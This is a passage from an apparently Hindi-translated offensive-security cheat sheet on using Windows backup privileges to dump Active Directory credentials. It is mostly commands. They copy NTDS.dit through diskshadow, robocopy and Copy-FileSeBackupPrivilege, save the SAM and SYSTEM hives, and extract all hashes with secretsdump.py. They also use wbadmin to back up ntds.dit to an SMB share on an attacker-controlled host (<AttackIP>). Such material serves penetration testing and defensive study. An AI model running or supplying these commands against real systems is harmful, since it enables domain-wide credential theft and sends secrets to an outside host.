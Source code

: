```
DISKSHADOW> create
DISKSHADOW> expose %cdrive% F:
DISKSHADOW> end backup
DISKSHADOW> exit
```
जैसा कि स्थानीय हमले में, अब आप विशेषाधिकारित फ़ाइल **`NTDS.dit`** की प्रतिलिपि बना सकते हैं:
```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
फ़ाइलें कॉपी करने का एक और तरीका है [**robocopy**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)**:**
```
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```
तब आप आसानी से **SYSTEM** और **SAM** को **चुरा सकते हैं**:
```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
अंत में आप **`NTDS.dit`** से **सभी हैश** प्राप्त कर सकते हैं:
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
#### NTDS.dit को डंप करने के लिए wbadmin.exe का उपयोग करें

wbadmin.exe का उपयोग करना diskshadow.exe के उपयोग के बहुत समान है, wbadmin.exe उपयोगीता एक कमांड लाइन उपयोगीता है जो Windows में बनी हुई है, Windows Vista/Server 2008 से पहले से ही।

इसका उपयोग करने से पहले, आपको अपनी हमलावर मशीन पर smb सर्वर के लिए ntfs फ़ाइल सिस्टम सेटअप करनी होगी।

जब आप smb सर्वर को सेटअप करने के लिए समाप्त कर चुके हों, तो आपको लक्षित मशीन पर smb क्रेडेंशियल को कैश करने की आवश्यकता होगी:
```
# cache the smb credential.
net use X: \\<AttackIP>\sharename /user:smbuser password

# check if working.
dir X:\
```
यदि कोई त्रुटि नहीं है, तो इसका उपयोग करें wbadmin.exe को इसका शोध करने के लिए:
```
# Start backup the system.
# In here, no need to use `X:\`, just using `\\<AttackIP>\sharename` should be ok.
echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds

# Look at the backup version to get time.
wbadmin get versions

# Restore the version to dump ntds.dit.
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```
यदि यह सफल होता है, तो यह `C:\ntds.dit` में डंप हो जाएगा।
